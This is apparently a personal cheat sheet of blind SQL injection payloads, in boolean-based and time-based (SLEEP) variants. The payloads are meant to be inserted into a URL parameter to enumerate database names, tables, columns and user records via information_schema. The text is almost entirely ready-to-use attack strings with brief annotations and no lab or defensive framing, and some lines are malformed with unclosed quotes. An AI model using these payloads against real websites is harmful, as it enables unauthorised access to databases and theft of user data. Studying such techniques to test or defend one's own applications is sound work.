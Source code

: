 ## Blind SQLi (Boolean) ##

Change param in url. 

PARAM VALUE' union select 1,2,3;--

PARAM VALUE' union select 1,2,3 where database() like '%';-- (Will help get DB)

PARAM VALUE' union select 1,2,3 from information_schema.tables where table_schema = 'DB NAME' and table_name like 'a%';-- (Will help get tables)

PARAM VALUE' union select 1,2,3 from information_schema.columns where table_schema ='DB NAME' and table_name='TABLE NAME' and column_name like 'a%'; (Will help get columns)

PARAM VALUE' union select 1,2,3 from users where username like 'a% Will help get values from table and columns)

## Blind SQLi (Time) ##

Change param in url.

### TEST for SQLI Time Based ###

PARAM VALUE' union select SLEEP(5),2;--

PARAM VALUE' union select SLEEP(5),2 where database() like '%';-- (Will help get DB)

PARAM VALUE' union select SLEEP(5),2 from information_schema.tables where table_schema = 'DB NAME' and table_name like 'a%';-- (Will help get tables)

PARAM VALUE' union select SLEEP(5),2 from information_schema.columns where table_schema ='DB NAME' and table_name='TABLE NAME' and column_name like 'a%'; (Will help get columns)

PARAM VALUE' union select SLEEP(5),2 from users where username like 'a% Will help get values from table and columns)
